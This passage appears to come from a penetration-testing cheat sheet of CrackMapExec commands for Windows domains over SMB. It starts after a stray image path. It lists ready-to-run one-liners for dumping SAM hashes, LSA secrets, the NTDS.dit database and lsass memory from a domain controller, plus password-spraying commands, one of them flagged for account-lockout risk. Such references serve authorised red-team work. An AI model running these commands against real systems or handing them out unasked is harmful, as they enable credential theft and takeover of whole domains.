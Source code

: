 ```bash
cme smb <target_ip> -u <user> -p <password> -d <domain> --sam
```

## cme - Dump LSA
#platform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/POSTEXPLOIT/CREDS_RECOVER

Dump LSA secrets using methods from secretsdump.py
Requires Domain Admin or Local Admin Privileges on target Domain Controller

```bash
cme smb <target_ip> -u <user> -p <password> -d <domain> --lsa
```

## cme - dump ntds.dit
#platform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/POSTEXPLOIT/CREDS_RECOVER

Dump the NTDS.dit from target DC using methods from secretsdump.py
Requires Domain Admin or Local Admin Privileges on target Domain Controller

```bash
cme smb <target_ip> -u <user> -p <password> -d <domain> --ntds
```

## cme - dump lsass
#platform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/POSTEXPLOIT/CREDS_RECOVER

```bash
cme smb <target_ip> -u <user> -p <password> -d <domain> -M lsassy
```

## cme - dump lsass - with bloodhond update
#platform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/POSTEXPLOIT/CREDS_RECOVER

```bash
cme smb <target_ip> --local-auth -u <user> -H <hash> -M lsassy -o BLOODHOUND=True NEO4JUSER=<user|neo4j> NEO4JPASS=<neo4jpass|exegol4thewin>
```

## cme - password spray (user=password)
#platform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/ATTACK/BRUTEFORCE-SPRAY 

```bash
cme smb <dc-ip> -u <user.txt> -p <password.txt> --no-bruteforce --continue-on-success
```

## cme - password spray multiple test 
#platform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/BRUTEFORCE-SPRAY #tag/warning

(carrefull on lockout)

```bash
cme smb <dc-ip> -u <user.txt> -p <password.txt> --continue-on-success
```
